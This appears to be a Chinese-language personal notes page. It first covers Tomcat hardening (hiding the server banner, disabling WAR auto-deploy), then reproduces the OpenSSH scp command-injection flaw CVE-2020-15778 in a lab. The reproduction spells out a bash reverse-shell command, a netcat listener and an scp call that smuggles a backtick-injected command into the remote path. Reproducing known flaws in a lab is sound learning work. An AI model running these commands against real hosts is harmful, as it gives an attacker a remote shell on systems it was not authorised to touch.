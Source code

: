 方法2：

修改 tomcat 连接器的`server`属性，/conf/server.xml：

```xml
<Connector port="8080" protocol="HTTP/1.1"
           connectionTimeout="20000"
           redirectPort="8443"
           server="Server"/>
```

> [tomcat修改banner，隐藏版本号_运维笔录 美玲的技术博客_51CTO博客](https://blog.51cto.com/meiling/2069452)

```
# 查看服务器banner
[root@localhost bin]# curl -I 172.16.100.72:7100
HTTP/1.1 302 
Set-Cookie: JSESSIONID=-; Path=/; HttpOnly
Location: /
Transfer-Encoding: chunked
Date: Wed, 24 Aug 2022 06:52:27 GMT
Server: Server
```

以上两种方法是否只需要修改其中一个待验证。

### 关闭 Tomcat 热部署

> 默认Tomcat 是开启了对war包的热部署。为了防止被植入***等恶意程序，因此我们要关闭自动部署。
>
> [tomcat修改banner，隐藏版本号_运维笔录 美玲的技术博客_51CTO博客](https://blog.51cto.com/meiling/2069452)

修改 /conf/server.xml `Engine`标签中的`Host`标签

```xml
<Host name="localhost"  appBase="webapps"
      unpackWARs="false" autoDeploy="false">
```

# 漏洞复现

### OpenSSH 操作系统命令注入漏洞(CVE-2020-15778)

渗透机：192.168.3.231

靶机：192.168.3.200

```bash
# 渗透机创建sh文件，写入反弹shell命令
vim 1.sh
bash -i >& /dev/tcp/192.168.3.231/4444 0>&1
# 渗透机上传sh文件到靶机
scp 1.sh root@192.168.3.200:/tmp/1.sh

# 在渗透机新开终端监听4444端口
nc -lvvp 4444
# 若需安装nc
yum -y install nc
# 渗透机远程执行命令
scp 1.sh root@192.168.3.200:/'`sh /tmp/1.sh`'

# 此时可以在靶机的新开终端看到反弹的shell，输入命令测试
ip addr
```

